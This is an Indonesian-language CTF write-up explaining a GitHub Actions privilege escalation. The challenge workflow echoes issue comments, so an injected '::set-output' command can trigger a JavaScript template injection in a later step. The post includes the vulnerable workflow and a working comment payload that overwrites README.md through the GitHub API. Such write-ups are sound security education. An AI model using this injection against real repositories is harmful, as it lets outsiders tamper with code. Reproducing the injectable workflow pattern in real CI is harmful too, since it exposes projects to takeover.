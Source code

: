 ```yaml
---
title: "[Writeup][CTF][GitHub] Privilege Escalation on GitHub Action"
date: '2021-06-14 04:00:00'
tags: ['ctf','github','writeup']
categories: ['post']
author: "fadhilthomas"
draft: false
---
```


![alt text](/github01/logo.svg)

Bulan Maret 2021, GitHub mengadakan *security competition*, yaitu Capture The Flag yang menjadikan Github Action Workflow sebagai tantangannya. 

Peserta diberikan sebuah repositori pribadi yang berisi sebuah Github Action Workflow dan file Readme yang hanya memiliki akses baca atau *pull* saja. Tujuan dari tantangan ini yaitu peserta diharuskan melakukan *update* file di repositori tersebut.

![alt text](/github01/github01.png)

## Problem
```yaml
name: log and process issue comments
on:
  issue_comment:
    types: [created]

jobs:
  issue_comment:
    name: log issue comment
    runs-on: ubuntu-latest
    steps:
      - id: comment_log
        name: log issue comment
        uses: actions/github-script@v3
        env:
          COMMENT_BODY: ${{ github.event.comment.body }}
          COMMENT_ID: ${{ github.event.comment.id }}
        with:
          github-token: "deadc0de"
          script: |
            console.log(process.env.COMMENT_BODY)
            return process.env.COMMENT_ID
          result-encoding: string
      - id: comment_process
        name: process comment
        uses: actions/github-script@v3
        timeout-minutes: 1
        if: ${{ steps.comment_log.outputs.COMMENT_ID }}
        with:
          script: |
            const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
            return ""
          result-encoding: string
```

## Analysis
Sesuai dengan namanya, Github Action di atas memiliki *flow* untuk melakukan *logging* dari komentar pada *issue* yang sudah dibuat. Pada *step* pertama, Github Action memiliki env yaitu `COMMENT_BODY` dan `COMMENT_ID`. Kemudian ia akan melakukan *logging* isi dari badan komentar menggunakan console.log. 

Pada step kedua, terdapat pengecekan kondisi apabila keluaran dari `COMMENT_ID` pada step pertama bernilai `true` atau `1`, maka Github Action akan mengeksekusi script berikut ```const id = ${{ steps.comment_log.outputs.COMMENT_ID }}``` yang mana, terdapat celah keamanan yaitu *javascript template injection*. 

Namun sebelum bisa memanfaatkan celah *template injection*, terlebih dahulu harus memenuhi kondisi `COMMENT_ID == true`. Dalam [dokumentasi GitHub](https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#stopping-and-starting-workflow-commands), *workflow runner* akan mengeksekusi *workflow* command melalui `stdout` yaitu `console.log`, dan dalam [dokumentasi GitHub](https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#setting-an-output-parameter) juga terdapat command yang dapat membagikan nilai *variable* antar *workflow* melalui command `set-output`.

## Exploit
Untuk memperbarui file `README.md` yang ada dalam repositori, maka tambahkan *script* berikut pada komentar *issue*:
```yaml
::set-output name=COMMENT_ID::1;
await github.request('PUT /repos/{owner}/{repo}/contents/{path}', 
{ 
  owner: 'incrediblysecureinc', 
  repo: 'incredibly-secure-fadhilthomas',
  path: 'README.md',
  message: 'update: escalation',
  content: 'dGFrZW5z',
  sha: '4183b7e35a40d11acf98bad686ed2f6834cd71d0' 
})
```
Penjelasan dari *script* di atas sebagai berikut:

 - `::set-output name=COMMENT_ID::1;` berfungsi untuk mengirimkan nilai `COMMENT_ID` ke step kedua untuk memenuhi pengecekan kondisi.
 - `github.request('PUT /repos/{owner}/{repo}/contents/{path}` merupakan [GitHub REST API](https://docs.github.com/en/rest/reference/repos#create-or-update-file-contents) untuk memperbarui file.

Hasil dari script di atas adalah file `README.md` berhasil diperbarui sesuai dengan tujuan dari tantangan ini.
![alt text](/github01/github02.png)

## References
1. https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#stopping-and-starting-workflow-commands
2. https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#setting-an-output-parameter
3. https://docs.github.com/en/rest/reference/repos#create-or-update-file-contents
